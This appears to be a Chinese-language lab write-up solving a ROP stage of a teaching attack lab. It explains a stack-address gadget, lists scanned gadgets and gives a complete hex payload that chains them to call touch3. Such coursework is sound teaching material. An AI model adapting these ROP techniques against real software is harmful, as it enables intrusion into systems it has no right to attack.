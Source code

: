 这里有一个问题：因为还是必须在栈里面存字符串，那怎么获取地址？栈地址已经会变化了。

在看别人博客的时候，看见一个非常非常重要的gadget：

```
0x00000000004019d6 : lea rax, [rdi + rsi] ; ret
```

只要其中一个是栈上的地址，我们控制另一个，就可以获得栈上任意处的地址。

开始扫gadget：

```
--only "mov|ret"
0x0000000000401b23 : mov byte ptr [rax + 0x605500], 0 ; ret
0x0000000000400f63 : mov byte ptr [rip + 0x20454e], 1 ; ret
0x000000000040214e : mov dword ptr [rdi + 8], eax ; ret
0x0000000000401b10 : mov dword ptr [rip + 0x2045ee], eax ; ret
0x0000000000402dd7 : mov eax, 0 ; ret
0x0000000000401994 : mov eax, 1 ; ret
0x0000000000401a07 : mov eax, esp ; ret
0x0000000000401a9a : mov eax, esp ; ret 0x8dc3
0x00000000004019a3 : mov edi, eax ; ret
0x000000000040214d : mov qword ptr [rdi + 8], rax ; ret
0x0000000000401a06 : mov rax, rsp ; ret
0x00000000004019a2 : mov rdi, rax ; ret
0x0000000000400c55 : ret
```

```
--only "pop|ret"
0x00000000004021d5 : pop rbx ; pop rbp ; pop r12 ; pop r13 ; ret
0x00000000004018f5 : pop rbx ; pop rbp ; pop r12 ; ret
0x00000000004011aa : pop rbx ; pop rbp ; ret
0x0000000000401dab : pop rbx ; ret
0x000000000040141b : pop rdi ; ret
0x0000000000402b17 : pop rsi ; pop r15 ; ret
0x0000000000401383 : pop rsi ; ret
0x0000000000402b13 : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040137f : pop rsp ; pop r13 ; pop r14 ; ret
0x00000000004021d8 : pop rsp ; pop r13 ; ret
0x00000000004018f8 : pop rsp ; ret
0x0000000000400c55 : ret
```
（略去了一部分没用的gadget）

我们可以先得到rsp的值，mov到rax，然后mov到rdi，这样rdi就拿到了栈顶的地址。

接下来通过pop rsi的gadget，我们再输入偏移，就可以通过前面的lea获取我们输入的字符串的地址。

最后mov到rdi上，就可以跳转到`touch3`了。

```
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
06 1a 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
83 13 40 00 00 00 00 00
40 00 00 00 00 00 00 00
d6 19 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
fa 18 40 00 00 00 00 00
35 39 62 39 39 37 66 61
00
```
